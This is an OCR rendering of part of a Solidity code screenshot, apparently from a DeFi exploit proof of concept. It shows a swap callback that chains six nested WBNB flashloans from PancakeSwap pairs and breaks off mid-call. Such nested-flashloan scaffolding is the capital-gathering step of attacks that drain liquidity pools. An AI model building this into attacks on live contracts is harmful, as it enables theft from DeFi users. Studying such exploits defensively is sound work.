 │         uint256 amount0,                                                                                                                                                                                                                              │
│         uint256 amount1,                                                                                                                                                                                                                              │
│         bytes calldata data                                                                                                                                                                                                                           │
│     ) public {                                                                                                                                                                                                                                        │
│         (uint256 level, uint256 asset) = abi.decode(data, (uint256, uint256));                                                                                                                                                                        │
│                                                                                                                                                                                                                                                       │
│         // Take 6 WBNB flashloans from PCS                                                                                                                                                                                                            │
│         if (level + 1 < 7) {                                                                                                                                                                                                                          │
│             level++;                                                                                                                                                                                                                                  │
│             (uint256 _amount0, uint256 _amount1, ) = pairs.getReserves();                                                                                                                                                                             │
│             if (WBNB == pairs.token1()) {                                                                                                                                                                                                             │
│                 pairs.swap(                                                                                                                                                                                                                           │
│                     0,                                                                                                                                                                                                                                │
│                     _amount1 - 1,                                                                                                                                                                                                                     │
│                     address(this),                                                                                                                                                                                                                    │
│                     abi.encode(level, 1)                                                                                                                                                                                                              │
│                 );                                                                                                                                                                                                                                    │
│             } else {                                                                                                                                                                                                                                  │
│                 pairs.swap(                                                                                                                                                                                                                           │
│                     _amount0 - 1,                                                                                                                                                                                                                     │
│                     0,                                                                                                                                                                                                                                │